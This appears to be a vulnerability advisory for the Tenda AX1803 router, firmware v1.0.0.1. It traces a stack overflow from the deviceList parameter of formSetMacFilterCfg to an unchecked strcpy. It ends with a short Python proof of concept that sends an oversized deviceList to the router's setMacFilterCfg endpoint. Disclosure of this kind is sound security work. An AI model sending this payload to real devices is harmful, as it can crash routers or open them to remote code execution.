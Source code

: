 # Tenda AX1803 formSetMacFilterCfg
### Overview
vendor: Tenda

product: AX1803

version: v1.0.0.1

type: Stack Overflow
### Vulnerability Description
Tenda AX1803 v1.0.0.1 were discovered to contain a stack overflow via the deviceList parameter in the formSetMacFilterCfg function.

### Vulnerability details
In function formSetMacFilterCfg line 17, it reads in a user-provided parameter `deviceList`. The variable `v4` is passed as a parameter to the `sub_6483C` function. Function `sub_6483C` takes this variable as a parameter and passes it into function `sub_6302C`. Function `sub_6302C` calls function `sub_5E250`, where the first parameter is variable `a2`(actually the variable `v4`) and the second parameter is the stack-based buffer `s_2`. In function `sub_5E250`, the variable `s_1`(actually the variable `v4`) is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`(actually the variable `s_2`). As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/1.png)
![](images/2.png)
![](images/3.png)
![](images/4.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setMacFilterCfg"

data = {
    "macFilterType": "white",
    "deviceList": "a" * 1000 + "\r" + "b" * 1000
}


response = requests.get(url, params=data)
print(response.text)
```
